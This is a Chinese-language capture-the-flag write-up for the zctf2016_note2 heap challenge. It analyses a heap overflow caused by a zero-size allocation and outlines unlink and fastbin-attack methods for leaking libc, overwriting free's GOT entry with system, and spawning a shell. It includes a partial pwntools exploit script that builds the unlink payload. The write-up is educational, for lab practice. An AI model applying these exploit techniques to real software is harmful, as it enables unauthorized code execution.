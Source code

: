




## 例题2

题目地址：[BUUCTF在线评测 (buuoj.cn)](https://buuoj.cn/challenges#zctf2016_note2)

### 思路：

#### unlink的思路：（只讲unlink的思路）

1. 申请一个大小为0的chunk，系统会返回size为0x21的chunk，此时会存在堆溢出。
2. 再申请两个chunk，0x30，0x80，用来伪造unlink，和触发unlink。
3. 利用unlink修改heaplist指针，创建傀儡chunk。
4. 利用**傀儡任意地址读数据**，泄漏puts函数的got值，获取libc基地址。
5. 利用**傀儡任意地址写数据**，hook掉free函数的got表，指向system函数。
6. 最后free一个chunk内容为b"/bin/sh\x00"的chunk，直接getshell。

#### 利用堆溢出，fast attack思路：

1. 申请一个大小为0的chunk，系统会返回size为0x21的chunk，此时会存在堆溢出。
2. 释放一个chunk，修改其fd指针，申请伪造的chunk，溢出后覆盖heaplist。
3. 现在都有，任意地址写和任意地址读数据，泄漏libc，hook掉free函数got表，进而getshell。

### 分析：

1. add函数中自定义的read函数，当size为0时，无符号比较-1会一致比i大，但是当申请一个**为0的大小**，系统会返回**size为0x21的chunk** ，所以会造成堆溢出：

   ![image-20240718165817469](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202407181658559.png)

2. delete函数，堆指针清0，没有UAF：

   ![image-20240718165929758](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202407181659841.png)

3. show函数，打印堆指针处的数据，利用它来泄漏libc基地址：

   ![image-20240718165957049](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202407181659119.png)

4. edit函数，同样使用了自定义的read函数，但是无论是strncat函数还是strcpy函数，都会以b"\x00"结尾，所以edit函数**不能输入类似于p64(0)**的数据，只有**add函数能输入**：

   ![image-20240718170036756](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202407181700853.png)

### 利用：

1. 先构造unlink，利用heaplist中存储的指向chunk1的指针，来绕过检查，将fd值写入到**bk+0x10地址** ，因为edit函数不能输入p64(0)，所以采取 **先申请add(0,b"a")占位，再释放，再申请add(0,payload0)** 的方式将构造的unlink写入：

   ```python
   p.sendline(b"lzl")
   p.sendline(b"lzl")
   #unlink实现任意地址写，泄漏puts函数地址进而泄漏libc基地址，再hook一下free的got去getshell
   add(0,b'a')      #0  先占位
   add(0x20,b'a')   #1  构造unlink
   add(0x80,b'a')   #2  触发unlink
   
   #构造unlink
   heap_list = 0x602128
   fd = heap_list-0x18
   bk = heap_list-0x10
   content = p64(fd)+p64(bk)
   size = 0x21
   prve_size = 0x20
   next_size = 0x90
   payload0 = b"/bin/sh\x00" + p64(0)*2 +p64(0x31) + p64(0) + p64(size) + content + p64(prve_size)+p64(next_size)
   ```